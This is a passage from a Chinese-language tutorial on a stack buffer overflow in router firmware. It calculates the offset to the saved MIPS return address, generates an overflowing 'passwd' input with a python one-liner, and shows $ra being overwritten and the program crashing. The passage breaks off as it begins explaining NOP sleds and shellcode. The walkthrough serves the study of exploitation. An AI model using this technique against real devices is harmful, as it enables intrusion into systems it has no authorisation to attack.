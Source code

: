 <div align="center">查看后得到的结果是0x76FFEE6C</div>

所覆盖的地址减去buf所在地址，即`0x76FFEE6C-0x76FFECBC=0x1B0`

因此接下来尝试将passwd修改为：

```
python -c "print 'a' * 0x1AC + 'bbbb' + 'cccc'" > passwd
```

```
$ cat passwd 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbcccc
```

并重新执行程序尝试。



![](./router-vuln-overflow/change_ra.jpg)



![](./router-vuln-overflow/ra_change.jpg)

可以看到要进行lw $ra的地址被数据覆盖了，但是不知道为什么在buf的开头出现了一个'c'，导致偏移多了1 byte。

最终再执行跳转时发生报错。

![](./router-vuln-overflow/jump_ra.jpg)

![](./router-vuln-overflow/error.jpg)



### 实践

#### 漏洞攻击组成部分

通常情况下需要布置缓冲区的shellocde，会使用NOP区及其覆盖在NOP区后面的shellcode，这样可以给跳转指令一个较大的容错空间。

- NOP Sled
